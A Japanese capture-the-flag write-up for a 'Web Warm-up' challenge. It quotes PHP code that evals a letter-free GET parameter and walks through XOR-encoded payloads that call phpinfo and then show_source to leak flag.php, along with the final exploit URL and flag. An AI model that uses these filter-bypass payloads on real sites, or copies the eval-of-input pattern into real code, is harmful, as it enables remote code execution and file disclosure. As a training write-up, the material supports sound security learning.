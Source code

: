 # Web Warm-up

33pt (220 Solves)

```txt
Warm up! Can you break all the tasks? I'll pray for you!

read flag.php

Link: Link
```

## 概要

リンクを開くとphpのソースが表示される。  

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
```

warmupにアルファベットが含まれていない かつ 60文字以下な場合にevalが呼び出される様だ。  

xorでよしなにするんだろう。  
例えば以下のように`phpinfo`と`_______`をxorした値をとる。  
そしてその結果を`_______`とxorすれば`phpinfo`となり、phpinfoが実行される。

```php
$_ = ('phpinfo' ^ '_______');
print($_ . "\n");
```

> /7/6190

`url?warmup=("/7/6190"^"_______")();`にアクセスするとphpinfoが実行されているのが確認できる。

disable_functionsを見ると、system等が無効化されている。  
(これに気づかずにずっと`system(cat flag.txt)`しようとして悩んでた)

`system`が実行できないとなると、ソースコードを表示する関数を使うのだろう。  

## 解

highlight_fileでよしなにするとギリギリ60文字超えてしまい、実行してくれなかった。  
調べていると`show_source`とやらがあった。少しだけ短いのでこれにしたら行けた。

```php
$_ = ('show_source' ^ '_____________');
print($_ . "\n"); // => ,70(,0*-<:

$_ = ('flag.php' ^ '________');
print($_ . "\n"); // => 93>8q/7/
```

これを元にurlを組み立てる。

```txt
[url]/?warmup=(",70(,0*-<:"^"___________")(("93>8/7/"^"____.___"));
```

しかし、これでは実行できない。  
ローカルでソースコードをコピペして再現したら、以下のようなエラーが出ていた。

> Fatal error: Uncaught Error: Call to undefined function showsource() in C:\xampp\htdocs\ctf.php(30) : eval()'d code:1 Stack trace: #0 C:\xampp\htdocs\ctf.php(30): eval() #1 {main} thrown in C:\xampp\htdocs\ctf.php(30) : eval()'d code on line 1

「`showsource()`関数がないよ」って言っている。今呼び出したいのは`show_source`だ。  
試しに`",70(,0*-<:"^"___________"`を実行してみると、`showsource`になる。

これは、`"_"^"_"`の結果が`%00`になってしまい、表示されてなかったのが原因。  
`%00`と`_`でxorすれば`_`になるので%00を入れてやってみる。

```txt
[url]/?warmup=(",70(%00,0*-<:"^"___________")(("93>8/7/"^"________"));
```

まだ上手くいかない。ローカルで試すと以下のエラー。

> Warning: show_source(flagphp): failed to open stream: No such file or directory in C:\xampp\htdocs\ctf.php(30) : eval()'d code on line 1
Warning: show_source(): Failed opening 'flagphp' for highlighting in C:\xampp\htdocs\ctf.php(30) : eval()'d code on line 1
Parse error: syntax error, unexpected end of file in C:\xampp\htdocs\flag.php on line 2

`show_source()`はエラーなく実行できていそうだ。  
「`flagphp`がないよ」って言っている。本来は`flag.php`だ。  
`.`が抜けている。`_`と同じように`%00`と`.`をxorさせることで解決。

```txt
[url]?warmup=(",70(%00,0*-<:"^"___________")(("93>8%00/7/"^"____.___"));
```

`flag.php`が表示される。

```php
<?php
$flag = "ASIS{w4rm_up_y0ur_br4in}";
?>
```

```txt
ASIS{w4rm_up_y0ur_br4in}
```
